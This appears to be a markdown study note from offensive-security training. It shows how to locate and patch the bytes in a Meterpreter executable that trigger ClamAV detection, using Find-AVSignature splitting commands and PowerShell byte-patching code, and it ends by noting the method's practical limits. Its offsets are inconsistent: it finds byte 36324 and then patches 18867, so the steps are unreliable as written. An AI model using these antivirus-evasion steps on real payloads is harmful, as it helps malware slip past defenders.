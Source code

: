 ## Locating Signatures in Files

There are two primary approaches to evade signature based detection which is to determine the exact bytes that are triggering detection:
1. The most complicated approach is to reverse-engineering the antivirus scanning engine and signature database to discover the actual signatures.
2. Split the binary into multiple pieces and perform an on-demand scan of sequentially smaller pieces until the exact bytes are found.

We'll be using the 2nd method, for which we'll use the [_Find-AVSignature_](http://obscuresecurity.blogspot.com/2012/12/finding-simple-av-signatures-with.html) powershell script for the task.

We start by importing the script:
```Powershell
Import-Module .\Find-AVSignature.ps1
```

We'll provide the script with arguments and the path to our shell:
```Powershell
Find-AVSignature -StartByte 0 -EndByte max -Interval 10000 -Path C:\Tools\met.exe -OutPath C:\Tools\avtest1 -Verbose -Force
```

We then start a clamAV scan on the output folder and we get the following output:

![](../../../Screenshots/av-scan1.png)

The first signature was detected in the third file, somewhere between offset 30000 and 40000.

We'll run _Find-AVSignature_ again to split the meterpreter executable with 1000 byte intervals, but only from offset 30000 to 40000.:
```Powershell
Find-AVSignature -StartByte 30000 -EndByte 40000 -Interval 1000 -Path C:\Tools\met.exe -OutPath C:\Tools\avtest2 -Verbose -Force
```

 And scan the segments again:
 
![](../../../Screenshots/av-scan2.png)

 These results indicate that the offending bytes are between offsets 36000 and 37000.
 For the next run, we'll narrow down the interval to 100:
 ```Powershell
 Find-AVSignature -StartByte 36000 -EndByte 37000 -Interval 100 -Path C:\Tools\met.exe -OutPath C:\Tools\avtest3 -Verbose -Force
 ```

 Scanning the segments again:

 ![](../../../Screenshots/av-scan3.png)

 The output reveals the offending byte is between 36300 and 36400

 Repeating this process again and again, we find the byte to be 36324.
 
![](../../../Screenshots/off-byte.png)

 We'll use PowerShell_ISE to read the bytes of the Meterpreter executable, zero out the byte at offset 18867, and write the modified executable to a new file, met_mod.exe:
 ```Powershell
$bytes  = [System.IO.File]::ReadAllBytes("C:\Tools\met.exe")
$bytes[18867] = 0
[System.IO.File]::WriteAllBytes("C:\Tools\met_mod.exe", $bytes)
```

we'll repeat the split and scan, this time on the modified executable.
This shows that the modification worked:
![[]]

Following this process, we find 3 bytes that are being detected:
1. 18867
2. 18987
3. 73801

Changing these to 0 with the following code:
```Powershell
$bytes  = [System.IO.File]::ReadAllBytes("C:\Tools\met.exe")
$bytes[18867] = 0
$bytes[18987] = 0
$bytes[73801] = 0xFF
[System.IO.File]::WriteAllBytes("C:\Tools\met_mod.exe", $bytes)
```
note: changing the final byte to 0x00 does not produce a clean scan, but changing it to 0xFF does.


Even though we're able to get a clean scan, we run into some problems:
1.  We have destroyed some functionality inside our executable as we have likely changed something in either the shellcode itself or the part of the executable that runs it. There is only one option to rectify this problem and that is to reverse engineer exactly what those three bytes do and attempt to modify them in such a way that the executable still works which is very tedious.
2. Even though we are bypassing ClamAV, we may not be bypassing other antivirus products.

This technique works in theory and it sounds relatively straight-forward, but is not very effective in the real world, especially considering the fact that we would still have to contend with heuristic scanning.